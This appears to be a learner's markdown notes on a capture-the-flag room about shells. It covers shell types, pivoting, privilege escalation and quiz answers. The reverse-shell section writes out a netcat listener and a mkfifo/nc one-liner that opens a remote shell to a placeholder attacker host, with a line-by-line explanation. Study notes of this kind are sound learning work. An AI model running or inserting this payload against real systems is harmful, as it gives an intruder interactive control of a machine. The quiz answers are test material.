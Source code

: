 | [Home](../README.md) | [Cyber Security 101](../README.md#cyber-security-101) | **Shells Overview** |

## Contents
- [Room Introduction](#room-introduction)
- [Reverse Shell](#reverse-shell)


## Room Introduction
Shells, an important function in the attack chain. This room teaches us how to use different sells in offsec, and how to detect them.

There is no question for this task.


## Shell Overview
This section covers how users interact with Shells, with out a GUI. 

The types of shell are **Remove System Control**, having control over a target system, **Privilege Escalation**, having exploited a vulnerability to gain elevated permission, **Data Exfiltration** is where potentially sensitive data can be read and copied off of the target, **Persistence and Maintenance access** describes continued access after the initial _Privilege Escalation_, **Post-Exploitation Activities** describes anything after the initial privilege escalation such as malware installation, data removal, account creation etc., **Access Other Systems on the Network** could be classed as pivoting, accessing other systems on the network.

### ❓ Question
> What is the command-line interface that allows users to interact with an operating system?
#### 🧪 Process
The command-line interface is often classed as a terminal, but in this context we are referring to a `Shell`.

Trying this as the answer
#### ✅ Answer
- `Shell` ✅

### ❓ Question
> What process involves using a compromised system as a launching pad to attack other machines in the network?
#### 🧪 Process
When we have established access, potentially elevated privilages, we may wish to pivot to other systems, otherwise known as `pivoting`.

Trying this as the answer
#### ✅ Answer
- `pivoting` ✅

### ❓ Question
> What is a common activity attackers perform after obtaining shell access to escalate their privileges?
#### 🧪 Process
Once you have established shell access, you will be limited to what you an do until you perform `Privilege Escalation`.

Trying this as the answer
#### ✅ Answer
- `Privilege Escalation` ✅


## Reverse Shell
sometimes refferred to as a '_Connect Back Shell_', a popular technique for gaining access. Connection is tarted from target to attacker. Outbound traffic is often trusted over inbound traffic

### How Reverse Shells Work
We use a Netcat (`nc`) listener `nc -lvnp 443`
What doe the arguments mean?
- `-l` sets up the listener
- `-v` enables the verbose mode
- `-n` prevents DNS look-ups, forces IP
- `-p` as expected specifies a port to listen on.
- `443` in this example we are listing on port 443

We initiate the reverse shell using a vulnerability in a system, Pentest Monkey has a [cheetsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 

One example
```shell
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`
```

Explanation (Copied directly / needs revision)

> `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
> `mkfifo /tmp/f` - This command creates a named pipe, or FIFO (first-in, first-out), at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
> `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
> `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring that error messages are sent back to the attacker.
> `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` - This part pipes the shell's output through `nc` (Netcat) to the attacker's IP address (`ATTACKER_IP`) on the attacker's port (`ATTACKER_PORT`).
> `>/tmp/f` -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.

